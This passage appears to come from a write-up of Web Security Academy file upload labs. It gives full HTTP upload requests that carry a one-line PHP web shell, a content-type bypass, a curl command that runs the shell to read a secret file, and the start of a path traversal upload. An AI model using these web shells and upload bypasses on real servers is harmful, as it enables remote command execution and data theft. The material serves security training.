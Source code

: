 ```html

------WebKitFormBoundaryM7J10YcS0wUBhrAu
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: application/php

<?php system($_GET[cmd]); ?>

------WebKitFormBoundaryM7J10YcS0wUBhrAu
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryM7J10YcS0wUBhrAu
Content-Disposition: form-data; name="csrf"

SGa42lnGxEBW6DarUIynepkosPbuMG6G
------WebKitFormBoundaryM7J10YcS0wUBhrAu--
```
- Pay attention for a content type of the file, let's change it to `image/png` and we done

```bash
curl https://<YOUR-LAB>.web-security-academy.net/files/avatars/shell.php?cmd=cat+/home/carlos/secret
```

### File upload vulnerabilities labs (Practitioner)

#### Lab: Web shell upload via path traversal
- Now we don't have problems to upload file but it is not possible to execute it (from the current directory!) so let's upload our file in other place:

```html
POST /my-account/avatar HTTP/2
Host: <YOUR-LAB>.web-security-academy.net
Cookie: session=8PnyH9gT9TaHNGPCrb8Nlgd50Yp26fWE
Content-Length: 439
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: https://<YOUR-LAB>.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary375AjJCiwJyeaJ4A
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://<YOUR-LAB>.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

------WebKitFormBoundary375AjJCiwJyeaJ4A
Content-Disposition: form-data; name="avatar"; filename="..%2fshell.php"
Content-Type: text/plain

<?php system($_GET[cmd]); ?>

------WebKitFormBoundary375AjJCiwJyeaJ4A
Content-Disposition: form-data; name="user"

```